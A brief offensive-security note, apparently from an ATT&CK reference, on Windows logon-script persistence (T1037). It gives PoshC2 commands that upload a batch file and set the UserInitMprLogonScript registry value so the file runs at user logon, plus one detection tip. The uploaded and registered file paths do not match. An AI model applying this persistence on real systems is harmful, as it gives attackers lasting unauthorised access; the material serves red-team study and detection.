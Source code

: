 # [Logon scripts](https://attack.mitre.org/techniques/T1037/)

## Exploit syntax:
In Poshc2, run
```sh
upload-file -source /tmp/test.bat -destination "c:\temp\test.bat" #Upload your batch file on the box

sharpreg create HKCU\Environment UserInitMprLogonScript "C:\test.bat" #Create the key and populate its value with the location of the file you uploaded
```
## Detections techniques:
* Investigate file creation in the default windows logon script location in the registry. HKEY_CURRENT_USER\Environment "UserInitMprLogonScript"(checked)
